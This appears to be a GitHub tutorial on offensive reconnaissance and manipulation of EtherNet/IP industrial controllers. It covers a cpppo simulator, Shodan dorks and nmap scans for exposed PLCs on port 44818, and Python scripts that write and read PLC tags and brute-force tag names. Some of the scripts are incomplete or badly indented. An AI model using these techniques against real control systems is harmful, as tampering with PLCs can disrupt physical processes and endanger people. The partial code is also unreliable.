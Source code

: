# EtherNet/IP

![EtherNet/IP OSI Model](docs/ethernetip_osi_model.jpg)

![EtherNet/IP Frame Structure](docs/ethernetip_frame_structure.jpg)

### EtherNet/IP Simulator

To install a python implementation of EtherNet/IP Stack in a Ubuntu VM:

``` 
$ sudo -H pip install --upgrade cpppo
$ python -m cpppo.server.enip -v
python -m cpppo.server.enip -v
12-16 01:53:33.461 MainThread root     NORMAL   main       Loaded config files: []
12-16 01:53:33.461 MainThread enip.srv NORMAL   main       Delaying all responses by 0.0 seconds
12-16 01:53:33.462 MainThread root     NORMAL   main       EtherNet/IP Simulator: ('', 44818)
12-16 01:53:33.462 MainThread network  NORMAL   server_mai enip_srv server PID [26261] running on ('', 44818)
12-16 01:53:33.462 MainThread network  NORMAL   server_mai enip_srv server PID [26261] responding to external done/disable signal in object 139661755723408
12-16 01:53:33.462   Thread-1 enip.srv NORMAL   enip_srv   EtherNet/IP Server enip_UDP begins serving peer None
``` 

or start this way to enable an array of 1000 INT values. Tag is called *SCADA*:

``` 
python -m cpppo.server.enip SCADA=INT[1000] -v
``` 

### Dorks and detection

Use these to get started with shodan then you can extend fingerprints based on results!

``` 
Device type: Communications Adapter
port:44818
```

Usually, service is on port **44818**. To discover devices in a specific subnet, nMap scan should look like:

``` 
$ nmap -p44818 172.16.252.1/24

Starting Nmap 7.01 ( https://nmap.org ) at 2017-12-16 11:58 EET

Nmap scan report for 172.16.252.134
Host is up (0.00062s latency).
PORT      STATE SERVICE
44818/tcp open  unknown
``` 

and if you want to analyze the service itself:


``` 
$ nmap 172.16.252.134 -p 44818 --script=enip-info

Starting Nmap 7.01 ( https://nmap.org ) at 2017-12-16 11:55 EET
Nmap scan report for 172.16.252.134
Host is up (0.00028s latency).
PORT      STATE SERVICE
44818/tcp open  EtherNet-IP-2
| enip-info: 
|   Vendor: Rockwell Automation/Allen-Bradley (1)
|   Product Name: 1756-L61/B LOGIX5561
|   Serial Number: 0x006c061a
|   Device Type: Programmable Logic Controller (14)
|   Product Code: 54
|   Revision: 20.11
|_  Device IP: 0.0.0.0
``` 

### Exploit?

1. Use *RSLogix 5000 Software* - it will allow you to perform some direct operations and even rewrite firmware.

2. Use *cpppo* to read/write tags:

**Write a specific tag:**

```
#!/usr/bin/env  python2

from cpppo.server.enip import client
import time

host = "192.168.179.131"
tags = [ "SCADA[13]", "SCADA[2]=(INT)37" ]

with client.connector( host=host ) as conn:
    for index,descr,op,reply,status,value in conn.pipeline(
            operations=client.parse_operations( tags ), depth=2 ):
``` 

**Read a specific tag:**

The trick in reading is that you have to already know the name of the tag you want to read! In the example, the tag name is "SCADA", the one used when simulator was started!

```
#!/usr/bin/env  python2

from cpppo.server.enip import client
import time

host = "192.168.179.131"
tags = [ "SCADA[1]", "SCADA[2]" ]

with client.connector( host=host ) as conn:
    for index,descr,op,reply,status,value in conn.pipeline(
            operations=client.parse_operations( tags ), depth=2 ):
        print( "%s: %20s: %s" % ( time.ctime(), descr, value ))
```

The only difference is the *line 7*, where the value is defined!

**Find new tags using broute force**

```
#!/usr/bin/env  python2

from cpppo.server.enip import client

host = "192.168.179.131"

with open('tagNames.txt') as f:
    tags = f.read().splitlines()                    # read all the tag names in the dictionary file, 
                                                    # stripping of newlines
with client.connector( host=host ) as conn:
    for tag in tags:
        req = conn.read( tag + '.ACC')              # adding .ACC to avoid errors on not DINT type tags

        assert conn.readable(timeout=1.0), "Failed to receive reply"

        reply = next(conn)
        for k, v in reply.items():                  # Scan through the Key and Value pairs returned
            if str(k).endswith('status'):
				if (v == 5):                        # Found a valid tag if the transaction status is 5 
                    print tag + " is a valid tag"
```

where *tagNames.txt* is a list of possible tags, one per line:

```
motor
pump
tank
valve
actuator
power
circuit
room
grid
panel
control
john
cena
password
username
user
pass
secret
safe
key
hidden
```

#### Conclusions

Resources and bibliography:

  * **Industrial Cybersecurity - Efficiently secure critical infrastructure systems** by *Pascal Ackerman*
  * **HACKING EXPOSED: ICS and SCADA Security Secrets and Solutions** by *C. E. Bodungen, B. L. Singer, A. Shbeeb, S. Hilt, K. Wilhoit*
  * Introduction into ICSs world: https://www.myplctraining.com/beginners-plc-overview-part-1-of-4-introduction-to-plcs/
